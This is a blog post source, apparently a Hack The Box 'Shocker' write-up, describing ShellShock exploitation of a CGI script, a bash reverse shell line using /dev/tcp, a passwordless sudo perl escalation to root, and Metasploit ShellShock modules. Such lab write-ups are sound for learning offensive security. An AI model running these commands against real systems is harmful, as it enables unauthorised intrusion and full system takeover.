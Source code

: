 ```yaml
---
layout: post
title: "Shocker"
date: 2020-09-21 22:00:00 -0600
categories: HTB OSCP
tags: HTB Shocker Linux ShellShock
---
```


## Enumeration

![site](/assets/images/shocker/site.png)

Same as every machine we are going to start with our autorecon scan. This revealed only 2 open ports, port 80 and port 2222. Nikto and GoBuster didn't show much on their scans other than a `cgi-bin` folder so I decided to throw dirbuster at it with php and sh for extensions to see if there are scripts buried there.

![dibuster](/assets/images/shocker/dirbuster.png)

This returned a `user.sh` script in the cgi-bin folder, not having much to go on and knowing that machine names are sometimes a hint for machines I decided to poke at this script and an older vulnerability know as [ShellShock](<https://en.wikipedia.org/wiki/Shellshock_(software_bug)>). This took advantage of advantage of a bug in bash to execute arbitrary commands. In my digging I found a tool for finding ShellShock exploitable scripts with the name [shocker](https://github.com/nccgroup/shocker). I was able to use this to exploit our machine with the following command `python shocker.py -H 10.10.10.56 --command /bin/ls -c /cgi-bin/user.sh`

![shocker](/assets/images/shocker/shocker.png)

Now that we have command execution on the machine we can try to pop a shell. [Pentest Monkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) has my favorite reverse shell cheat sheet. I decided to go the simple route and try a basic bash reverse shell, we can attempt to get a shell with `/bin/bash -i >& /dev/tcp/<ip>/<port> 0>&1` This ended up getting us our shell as the user Shelly

## Elevate

Now that we have a shell I generally default to a `sudo -l` as my first enumeration step and in this case we found some really low hanging fruit for escalation. We can see this user can sudo perl without a password.

![sudo](/assets/images/shocker/user.png)

Referencing [GTFOBINS](https://gtfobins.github.io/) we can see a fairly simple perl command to get a shell `sudo perl -e 'exec "/bin/sh";'`. Running this gives us our root shell and we can grab our flags and get out.

![got root?](/assets/images/shocker/got_root.png)

## Metasploit

I wanted to try to a metasploit module for this one to see if I could get it to work the "easy" way as well. We can start off by searching for a metasploit module for shellshock. There is a auxiliary module for scanning so I decided to give that a go first, start off by doing a `use auxiliary/scanner/http/apache_mod_cgi_bash_env`. We need to set the RHOSTS and TARGETURI values here.

![scanner](/assets/images/shocker/aux.png)

We want to use `exploit/multi/http/apache_mod_cgi_bash_env_exec`. For this to work we need to set basically the same payloads as before, RHOSTS and TARGETURI. Also make sure you have the right LHOST set, it usually defaults to your primary adapter. You can set it to your VPN tunnel with `set LHOST tun0`. Once we have our options set we can fire off the exploit and catch our shell.

![meterpreter](/assets/images/shocker/got_root_ms.png)
